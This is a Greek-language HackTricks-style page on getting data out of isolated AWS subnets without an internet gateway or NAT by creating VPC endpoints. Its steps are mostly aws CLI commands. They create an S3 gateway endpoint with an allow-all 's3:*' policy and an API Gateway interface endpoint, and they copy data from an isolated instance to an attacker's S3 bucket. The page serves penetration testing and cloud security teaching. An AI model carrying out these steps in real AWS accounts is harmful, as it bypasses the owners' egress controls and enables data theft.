 # AWS – Παράκαμψη Egress από Απομονωμένα Subnets μέσω VPC Endpoints

{{#include ../../../../banners/hacktricks-training.md}}

## Περίληψη

Αυτή η τεχνική εκμεταλλεύεται τα VPC Endpoints για να δημιουργήσει κανάλια εξαγωγής (exfiltration) από subnets χωρίς Internet Gateways ή NAT. Οι Gateway endpoints (π.χ. S3) προσθέτουν prefix‑list routes στους πίνακες δρομολόγησης των subnets· οι Interface endpoints (π.χ. execute-api, secretsmanager, ssm κ.λπ.) δημιουργούν προσεγγίσιμα ENIs με ιδιωτικές IP προστατευμένες από security groups. Με ελάχιστα δικαιώματα VPC/EC2, ένας επιτιθέμενος μπορεί να ενεργοποιήσει ελεγχόμενο egress που δεν διέρχεται από το public Internet.

> Prereqs: existing VPC and private subnets (no IGW/NAT). You’ll need permissions to create VPC endpoints and, for Option B, a security group to attach to the endpoint ENIs.

## Επιλογή A – S3 Gateway VPC Endpoint

**Μεταβλητές**
- `REGION=us-east-1`
- `VPC_ID=<target vpc>`
- `RTB_IDS=<comma-separated route table IDs of private subnets>`

1) Δημιουργήστε ένα χαλαρό αρχείο πολιτικής endpoint (προαιρετικό). Αποθηκεύστε ως `allow-put-get-any-s3.json`:
```json
{
"Version": "2012-10-17",
"Statement": [ { "Effect": "Allow", "Action": ["s3:*"], "Resource": ["*"] } ]
}
```
2) Δημιουργήστε το S3 Gateway endpoint (προσθέτει S3 prefix‑list route στους επιλεγμένους πίνακες δρομολόγησης):
```bash
aws ec2 create-vpc-endpoint \
--vpc-id $VPC_ID \
--service-name com.amazonaws.$REGION.s3 \
--vpc-endpoint-type Gateway \
--route-table-ids $RTB_IDS \
--policy-document file://allow-put-get-any-s3.json   # optional
```
Evidence to capture:
- `aws ec2 describe-route-tables --route-table-ids $RTB_IDS` εμφανίζει μια διαδρομή προς την AWS S3 prefix list (π.χ., `DestinationPrefixListId=pl-..., GatewayId=vpce-...`).
- Από ένα instance σε αυτά τα subnets (με IAM perms) μπορείτε να exfil μέσω S3 χωρίς διαδίκτυο:
```bash
# On the isolated instance (e.g., via SSM):
echo data > /tmp/x.txt
aws s3 cp /tmp/x.txt s3://<your-bucket>/egress-test/x.txt --region $REGION
```
## Επιλογή B – Interface VPC Endpoint για API Gateway (execute-api)

**Μεταβλητές**
- `REGION=us-east-1`
- `VPC_ID=<target vpc>`
- `SUBNET_IDS=<comma-separated private subnets>`
- `SG_VPCE=<security group for the endpoint ENIs allowing 443 from target instances>`

1) Δημιουργήστε το interface endpoint και επισυνάψτε το SG:
```bash
aws ec2 create-vpc-endpoint \
--vpc-id $VPC_ID \
--service-name com.amazonaws.$REGION.execute-api \
--vpc-endpoint-type Interface \
--subnet-ids $SUBNET_IDS \
--security-group-ids $SG_VPCE \
--private-dns-enabled
```
Στοιχεία προς συλλογή:
- `aws ec2 describe-vpc-endpoints` δείχνει το endpoint σε κατάσταση `available` με `NetworkInterfaceIds` (ENIs στα υποδίκτυά σας).
- Οι instances σε αυτά τα υποδίκτυα μπορούν να προσεγγίσουν Private API Gateway endpoints μέσω αυτών των VPCE ENIs (δεν απαιτείται διαδρομή στο Internet).

## Επιπτώσεις
- Παρακάμπτει τους perimeter egress controls αξιοποιώντας AWS‑managed private paths προς AWS services.
- Επιτρέπει data exfiltration από απομονωμένα υποδίκτυα (π.χ., εγγραφή σε S3; κλήση Private API Gateway; πρόσβαση σε Secrets Manager/SSM/STS, κ.λπ.) χωρίς IGW/NAT.

{{#include ../../../../banners/hacktricks-training.md}}
